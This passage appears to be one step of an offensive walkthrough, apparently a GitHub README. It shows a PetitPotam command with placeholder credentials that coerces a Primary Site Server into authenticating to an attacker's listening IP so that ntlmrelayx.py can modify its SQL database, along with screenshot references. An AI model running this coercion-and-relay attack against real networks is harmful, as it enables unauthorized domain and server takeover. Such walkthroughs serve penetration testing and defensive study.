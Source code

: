 ### Step 3 
Use PetitPotam to coerce the Primary Site Server to your listening IP
```
python3 PetitPotam.py -u domainuser -p password <listening-ip> <primary-site-server-ip>
```
<div align="center">
<img src="./Screenshots/petitpotam.png" width="800">
</div>
<br>
Returning to ntlmrelayx.py, the SQL database should have been updated
<br><br>

<div align="center">
<img src="./Screenshots/sql-update.png" width="800">
</div>
